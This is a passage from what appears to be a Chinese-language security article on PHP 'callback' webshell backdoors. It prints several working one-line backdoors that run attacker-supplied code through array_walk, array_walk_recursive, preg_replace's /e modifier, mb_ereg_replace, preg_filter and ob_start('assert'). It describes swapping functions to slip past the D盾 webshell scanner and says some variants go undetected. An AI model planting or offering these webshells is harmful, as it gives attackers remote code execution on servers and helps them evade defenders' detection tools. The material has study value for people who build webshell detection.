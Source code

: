 三个参数可以用preg_replace。所以我这里构造了一个array_walk + preg_replace的回调后门：

```
$e = $_REQUEST['e'];
$arr = array($_POST['pass'] => '|.*|e',);
array_walk($arr, $e, '');

```

如图，这个后门可以在5.3下使用：

![enter image description here](http://drops.javaweb.org/uploads/images/64f5601504ab5a792131cb87448cd72e40ff48f1.jpg)

但强大的D盾还是有警觉（虽然只是等级2）：

![enter image description here](http://drops.javaweb.org/uploads/images/a1fc8e73a07eb239b84584d94f4d52b025a7a33d.jpg)

不过呵呵，PHP拥有那么多灵活的函数，稍微改个函数（array_walk_recursive）D盾就查不出来了：

```
$e = $_REQUEST['e'];
$arr = array($_POST['pass'] => '|.*|e',);
array_walk_recursive($arr, $e, '');

```

不截图了。

看了以上几个回调后门，发现preg_replace确实好用。但显然很多WAF和顿顿狗狗的早就盯上这个函数了。其实php里不止这个函数可以执行eval的功能，还有几个类似的：

```
mb_ereg_replace('.*', $_REQUEST['pass'], '', 'e');

```

另一个：

```
echo preg_filter('|.*|e', $_REQUEST['pass'], '');

```

这两个一句话都是不杀的：

![enter image description here](http://drops.javaweb.org/uploads/images/76523bd4f489367b83f276012a4a2fa6661409c5.jpg)

![enter image description here](http://drops.javaweb.org/uploads/images/ced5f26af97ad92d9273fc9e6b20458663270b3d.jpg)

好用的一句话，且用且珍惜呀。

0x05 无回显回调后门
=====

回调后门里，有个特殊的例子：ob_start。

ob_start可以传入一个参数，也就是当缓冲流输出时调用的函数。但由于某些特殊原因（可能与输出流有关），即使有执行结果也不在流里，最后也输出不了，所以这样的一句话没法用菜刀连接：

```
ob_start('assert');
echo $_REQUEST['pass'];
ob_end_flush();

```
